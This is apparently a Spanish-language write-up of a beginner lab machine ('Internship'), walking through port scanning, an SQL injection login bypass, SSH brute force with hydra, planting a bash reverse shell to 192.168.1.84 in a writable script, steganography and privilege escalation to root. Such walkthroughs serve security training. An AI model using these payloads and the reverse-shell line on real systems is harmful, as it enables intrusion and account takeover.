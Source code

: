 # 🧠 **Informe de Pentesting – Máquina: Internship** internship

### 💡 **Dificultad:** Fácil


![Despliegue](Imágenes/2025-05-17_19-35.png)

---

## 📝 **Descripción de la máquina**

---

## 🎯 **Objetivo**

---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se lanza el contenedor Docker mediante el script incluido:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Verificamos que la máquina se encuentra activa respondiendo a peticiones ICMP (ping):

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Luego, analizamos los servicios y versiones asociados a esos puertos:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

Entramos a http://172.17.0.3/ y encontramos una pagina de bienbenida.
![Pagina](Imágenes/Capturas_4.png)

Al revisar el codigo fuente se puede ver que hay un domino: gatekeeperhr.com abirmos sudo nano /etc/hosts y agregamos  172.17.0.3 gatekeeperhr.com 
![Dominio](Imágenes/Capturas_6.png)

---

![hosts](Imágenes/Capturas_7.png)

Al agrgar el domino ahora nos permine abrir la pestalla de inicio de sesion
![Registro](Imágenes/Capturas_8.png)

Hacemos una injeccion poniendo en usuario y contraseña: ' OR 1=1-- - esa inyección SQL modifica la consulta original, haciendo que la condición siempre sea verdadera (`1=1`). Omite la verificación de usuario y contraseña, 
permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)

---

![Registro](Imágenes/Capturas_10.png)
Nota: Estos son posibles usuarios para entrar al servicio de SSH

Se realizo un fuzzin a http://172.17.0.3 pero no dio un resultado explotable asi que se realizo fuzzing al dominio y se encontro:
/about.html           
/contact.html         
/default              
/spam                 
/index.html          
/css                  
/includes             
/js                   
/lab 
![Fuzzing](Imágenes/Capturas_11.png)
Donde varios no permitian su vista y /spam muestra un panatalla negra pero al revisar el codigo fuente se encontro un comentario: Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
Use chatgtp para vaeriguar que tipo de cifraro era y lo que me mostro fue: 
El comentario HTML que has escrito parece estar **cifrado con ROT13**, un cifrado simple que reemplaza cada letra por la que está 13 posiciones después en el alfabeto.

Original (ROT13): Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
Descifrado: La contaraseña de uno de los password es 'purpl3'

### Traducción:
**La contraseña de uno de los password es 'purpl3'**
Nota: Para hecrlo manual si sabes que tipo de cifrado es usar:  echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'

---

Cee un users.txt con los nombre de usuarios de los pasantes ya que en el el codigo cifrado decia que la contraseña es: purpl3 es uno de los pasantes 
Use hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4 para encontrar una contraseña donde se encotraron las credenciales: [22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
![Hydra](Imágenes/Capturas_12.png)

Accedí vía SSH como `pedro`. Verifiqué que no tiene privilegios `sudo` (`sudo -l`). Encontré `fl4g.txt` en su home. En `/opt` descubrí `log_cleaner.sh`, propiedad de `valentina` con permisos de escritura. Edité el script con:

```bash
nano log_cleaner.sh
```

Agregué una reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Listo para esperar conexión en otra terminal con: sudo nc -lvnp 443.
![payload](Imágenes/Capturas_15.png)



Como parte de la escalada de privilegios, accedí como `valentina` y localicé `profile_picture.jpeg`. Lo copié a `/tmp` con:

```bash
cp ~/profile_picture.jpeg /tmp
```

Luego le di permisos globales:

```bash
chmod 777 profile_picture.jpeg
```

Esto permite analizarlo desde otro usuario (maquina atacante) buscando datos ocultos o vectores de explotación.

![Imagen](Imágenes/Capturas_13.png)


Como parte del proceso de escalada de privilegios, desde mi máquina local descargué la imagen `profile_picture.jpeg` con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Utilicé esteganografía para extraer datos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Al ingresar la contraseña correcta (no tiene en este caso solo es enter), se extrajo `secret.txt`. Lo leí con:

```bash
cat secret.txt
```

Obtuve la posible clave de valentina: `mag1ck`.

![Contraseña](Imágenes/Capturas_14.png)


---

Tras cambiar a la cuenta `valentina` con:

```bash
su valentina
```

Verifiqué sus permisos con:

```bash
sudo -l
```

Descubrí que puede usar `vim` con `sudo` sin contraseña. Usé:

```bash
sudo su
```
Se obtiene acceso a root

![rott](Imágenes/Capturas_16.png)
